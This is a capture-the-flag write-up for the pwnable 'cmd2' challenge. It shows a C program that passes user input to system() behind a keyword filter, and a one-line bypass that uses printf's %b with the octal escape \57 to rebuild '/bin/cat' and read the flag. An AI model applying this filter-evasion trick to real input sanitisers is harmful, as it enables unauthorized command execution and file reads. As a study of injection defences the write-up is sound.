 We are handed the alternate challenge here:
```
int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```
The filter is a little bit more restrictive here, if we look at our solution for cmd1 it was: `./cmd1 '$(printf "/bin/cat %s%s" "fla" "g")'`.
The only thing that isn't going to work anymore is our '/' characters. We have to alter our command a little bit to accommodate,
we can use the `%b` specifier which will expand backslash escape sequences, all we have to do is use the octal value for the forward slash: `\57`.

Using what we know:
```
cmd2@pwnable:~$ ./cmd2 '$(printf "%bbin%bcat %s%s" "\57" "\57" "fla" "g")'
$(printf "%bbin%bcat %s%s" "\57" "\57" "fla" "g")
(Flag Redacted)
```